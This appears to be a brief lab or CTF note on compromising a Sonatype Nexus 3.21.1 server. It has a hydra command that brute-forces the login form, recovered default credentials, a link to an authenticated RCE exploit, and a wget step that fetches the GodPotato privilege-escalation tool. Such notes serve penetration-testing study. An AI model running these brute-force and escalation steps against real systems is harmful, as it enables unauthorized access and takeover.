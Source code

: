 _____

>[!INFO]
> IP=192.168.229.61



# 8081 - http

# Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)

```bash
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

```bash
 -I : ignore any restore files
 -f : stop when a login is found
 -L : username list
 -P : password list
 ^USER64^ and ^PASS64^ tells hydra to base64-encode the values
 C=/ tells hydra to establish session cookies at this URL
 F=403 tells hydra that HTTP 403 means invalid login
```

![[Pasted image 20240213214803.png]]
![[Pasted image 20240213215049.png]]

nexus:nexus


https://www.exploit-db.com/exploits/49385


# PrivEsc

```bash
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O potato.exe
```




